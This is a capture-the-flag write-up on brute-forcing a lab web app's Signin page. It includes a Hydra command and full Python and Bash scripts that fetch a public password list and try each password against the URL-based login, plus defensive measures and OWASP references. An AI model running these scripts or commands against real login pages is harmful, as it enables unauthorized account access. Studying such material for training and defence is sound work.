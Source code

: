 # 💪 Brute-force

## 📖 Definition

A **brute-force attack** is a method used to gain unauthorized access to a system, network, or encrypted data by systematically trying all possible combinations of credentials or keys until the correct one is found. This type of attack relies on sheer computational power and persistence, making it one of the simplest, yet most resource-intensive and time-consuming, attack methods.

**Key Characteristics of a Brute-Force Attack:**

1. **Trial-and-Error Approach:** Attackers use software to automatically generate and test millions or billions of potential passwords, usernames, or encryption keys, often using algorithms that speed up this trial-and-error process.

2. **No Subtlety or Sophistication:** Unlike other types of cyber attacks that may rely on exploiting specific vulnerabilities, brute-force attacks don't require intricate knowledge of the target system. The approach is purely a numbers game: try everything until something works.

3. **Dependent on Computational Power:** The speed and feasibility of a brute-force attack are heavily influenced by the processing power available to the attacker. More powerful systems (or botnets of compromised machines working together) can test combinations faster.

4. **Types of Brute-Force Attacks:**

	- **Simple Brute-Force Attack:** Every possible combination of characters is tested, regardless of the target's characteristics.
	- **Dictionary Attack:** Attackers use a predefined list of likely passwords, often based on commonly used passwords or information known about the target.
	- **Hybrid Attack:** Combines a dictionary attack with variations on each entry, such as adding numbers or symbols to commonly used words.

## 🔍 Discovery

On the **Signin** page, we try several `username:password` combinations after realizing that the `username` and `password` are directly filled in the URL in this format: `username=<username>&password=<password>`.
So, at this point, we can code a little Python script to test all the possibilities with the `root` username. Why with this username? Because we tested it first but, in fact, whatever it is, you'll get the flag if the password is good. For the dictionary, we use [this one](https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Passwords/Common-Credentials/10-million-password-list-top-1000000.txt) from GitHub.

## 🏁 Flag

<u>**The manual way:**</u>

1. Take the passwords list on [this site](https://datanews.levif.be/actualite/le-top-25-des-mots-de-passe-les-plus-courants-et-les-plus-faibles/)
2. Go on the **Signin** page
3. In the username field, type whatever you want
4. In the password field, test all the passwords in the list

<u>**Using Hydra:**</u>

1. Download and store the dictionary by running:

```bash
curl -o dictionary https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Passwords/Common-Credentials/10-million-password-list-top-1000000.txt
```

2. Find the password by running:

```bash
hydra -l root -P dictionary -F -V "<ip>" http-get-form '/index.php:page=signin&username=^USER^&password=^PASS^&Login=Login:F=images/WrongAnswer.gif'
```

## 💡 Solutions

We provide two solutions: a Python and a Bash script.

**script.py | Usage: `python script.py <ip>`**

```Python
import requests, sys, subprocess

password_list_url = "https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Passwords/Common-Credentials/10-million-password-list-top-1000000.txt"
username = "root"

def get_password_list(url):
	response = requests.get(url)
	return response.text.splitlines()

def run_curl_command(ip, password):
	curl_command = f'curl -s "http://{ip}/index.php?page=signin&username={username}&password={password}&Login=Login#"'
	grep_command = "grep flag | awk -F': | <' '{print \"\\nThe flag is: \"$2}'"
	
	full_command = f"{curl_command} | {grep_command}"
	
	try:
		result = subprocess.check_output(full_command, shell=True, stderr=subprocess.PIPE)
		return result.decode().strip()
	except subprocess.CalledProcessError:
		return None

def bruteforce(ip):
	try:
		response = requests.get(f"http://{ip}", timeout=3)
		response.raise_for_status()
	except requests.exceptions.RequestException as e:
		print("Connection failed. Bad IP or network issue!")
		return False

	password_list = get_password_list(password_list_url)
	for password in password_list:
		password = password.strip()
		
		flag = run_curl_command(ip, password)
		
		if flag:
			print(f"Success! Username: {username} Password: {password}")
			print(flag)
			return True
	
	print("Password not found in the list.")
	return False

def main():
	if len(sys.argv) != 2:
		print("Usage: python script.py <ip>")
		sys.exit(1)
	bruteforce(sys.argv[1])

if __name__ == "__main__":
	main()
```

It first checks if the provided IP address is reachable by sending a `GET` request. It then downloads a list of common passwords from a specified URL and iterates through each password, attempting to log in with the username `root`. For each password, it constructs a `curl` command to attempt a login on the target site, and pipes the result to `grep` to check if the word "flag" appears in the response, indicating a successful login. If the word "flag" is found, the script prints the valid username, password, and the extracted flag, then stops. If no valid password is found after testing all options, it prints a failure message.

**script.sh | Usage: `./script <ip>`**

```bash
#!/bin/bash

if [ "$#" -ne 1 ]; then
	echo "Usage: ./script.sh <ip>"
	exit 1
else
    ip=$1
fi

function exec_hydra {
	curl -o dictionary https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Passwords/Common-Credentials/10-million-password-list-top-1000000.txt
	output=$(hydra -l root -P dictionary -F -V "$ip" http-get-form '/index.php:page=signin&username=^USER^&password=^PASS^&Login=Login:F=images/WrongAnswer.gif')
	password=$(echo "$output" | grep -oP 'password: \K\S+')
	rm dictionary
}

if command -v hydra &> /dev/null; then
	echo "Hydra is installed."
	exec_hydra
else
	echo "Hydra is not installed."
	echo "Installation..."
	git clone https://github.com/vanhauser-thc/thc-hydra.git
	cd thc-hydra
	./configure --prefix=$HOME/.local
	make
	make install
	export PATH=$HOME/.local/bin:$PATH
	source ~/.bashrc
	source ~/.zshrc
	exec_hydra
fi

curl "http://$ip/index.php?page=signin&username=root&password=$password&Login=Login#" | grep flag | awk -F': | <' '{print "\nThe flag is: "$2}'
```

It first checks if the provided IP address argument is supplied. If not, it prints a usage message and exits. The script then verifies if Hydra is installed by checking for the `hydra` command. If Hydra is found, it downloads a common password dictionary using `curl`, runs Hydra with the password list to brute-force the login page, and extracts the password found from the Hydra output using `grep`. The password is stored in a variable, and the dictionary file is deleted afterward. If Hydra is not installed, the script clones the Hydra repository from GitHub, compiles, installs it locally, and sets the necessary environment variables before running Hydra. Finally, the script sends a `curl` request with the found password to the login page and extracts the flag from the response using `grep` and `awk`, printing the flag if found.

## 🔧 Patch

Many defensive measures can be taken, but here are the main ones:

- **Password Complexity:** Requiring complex, long passwords makes brute-forcing more time-consuming.
- **Account Lockouts:** Locking an account after several failed attempts can thwart brute-force efforts.
- **Multi-Factor Authentication (MFA):** Adding an additional layer of security (e.g., a verification code sent to the user) can stop a brute-force attack even if a password is successfully guessed.
- **Rate Limiting and Captchas:** These limit the number of attempts an attacker can make in a given timeframe, slowing down or deterring brute-force attempts.

To better understand the importance to have a stong password, here is a chart to estimate the time it takes a hacker to brute force your password in 2024:

![](https://images.squarespace-cdn.com/content/5ffe234606e5ec7bfc57a7a3/1719499399309-7FRIR5QNH5P4VHC1AGGP/Hive+Systems+Password+Table+-+2024+Rectangular.png?format=1500w&content-type=image%2Fpng)

## 🧰 Toolbox

- [10 million passwords list](https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Passwords/Common-Credentials/10-million-password-list-top-1000000.txt)
- [Hydra](https://www.kali.org/tools/hydra/)

## 📚 References

- [Brute Force Attack (OWASP)](https://owasp.org/www-community/attacks/Brute_force_attack)
- [Blocking Brute Force Attacks (OWASP)](https://owasp.org/www-community/controls/Blocking_Brute_Force_Attacks)
